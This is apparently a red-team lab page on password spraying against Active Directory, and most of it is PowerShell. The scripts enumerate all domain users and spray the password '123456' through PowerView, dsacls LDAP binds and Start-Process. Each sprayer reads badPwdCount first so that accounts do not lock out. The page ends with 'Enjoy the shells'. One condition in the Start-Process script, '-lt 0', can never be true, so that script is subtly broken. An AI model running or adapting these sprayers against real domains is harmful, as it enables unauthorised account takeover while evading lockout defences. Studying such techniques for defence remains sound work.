

# Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray


```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```




```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```



## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions



I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:


```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```



## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:


```csharp
# will spray only users that currently have 0 bad password attempts
# dependency - powerview

function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "offense.local"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc.name).badpwdcount
    return $badPwdCount
}

$users = Get-netuser -properties samaccountname | Select-Object -ExpandProperty samaccountname
$domain = "offense.local"
$password = "123456"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -lt 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String $password -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
```


Enjoy the shells:



## References






